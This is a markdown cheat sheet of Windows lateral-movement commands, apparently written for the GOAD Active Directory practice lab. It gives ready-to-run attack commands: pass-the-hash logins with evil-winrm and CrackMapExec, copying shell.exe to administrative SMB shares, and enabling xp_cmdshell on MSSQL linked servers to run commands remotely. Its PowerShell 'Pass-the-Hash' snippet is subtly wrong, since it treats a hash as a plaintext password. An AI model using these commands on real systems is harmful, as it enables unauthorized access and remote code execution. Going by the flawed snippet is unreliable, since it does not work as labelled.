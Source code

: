 ### PowerShell Remoting
```powershell
# Enable PSRemoting (if admin)
Enable-PSRemoting -Force

# Connect to remote host
Enter-PSSession -ComputerName winterfell -Credential (Get-Credential)

# Execute commands remotely
Invoke-Command -ComputerName winterfell -ScriptBlock {whoami}

# Pass-the-Hash with PSRemoting
$password = ConvertTo-SecureString -AsPlainText -Force "aad3b435b51404eeaad3b435b51404ee:hash"
$cred = New-Object System.Management.Automation.PSCredential("Administrator", $password)
Invoke-Command -ComputerName winterfell -Credential $cred -ScriptBlock {whoami}
```

### WinRM
```bash
# Evil-WinRM with password
evil-winrm -i winterfell -u administrator -p password

# With NTLM hash
evil-winrm -i winterfell -u administrator -H hash

# Upload/Download files
*Evil-WinRM* PS> upload /local/path/file.exe C:\Windows\Temp\
*Evil-WinRM* PS> download C:\Windows\Temp\file.exe /local/path/
```

### SMB
```bash
# Mount SMB share
smbclient //winterfell/c$ -U sevenkingdoms\\administrator

# Copy files via SMB
smbclient //winterfell/admin$ -U administrator -c "put shell.exe"

# Use CrackMapExec for lateral movement
crackmapexec smb 192.168.56.0/24 -u administrator -H hash -x "whoami"
```

### MSSQL Trusted Links
```sql
-- From castelblack to braavos (GOAD specific)
-- List linked servers
SELECT * FROM sys.servers;

-- Execute commands on linked server
EXEC ('xp_cmdshell ''whoami''') AT [BRAAVOS];

-- Enable xp_cmdshell on remote server
EXEC ('sp_configure ''show advanced options'', 1; reconfigure;') AT [BRAAVOS];
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [BRAAVOS];

-- Chain through multiple servers
EXEC ('EXEC (''SELECT @@version'') AT [ANOTHER_SERVER]') AT [BRAAVOS];
```

---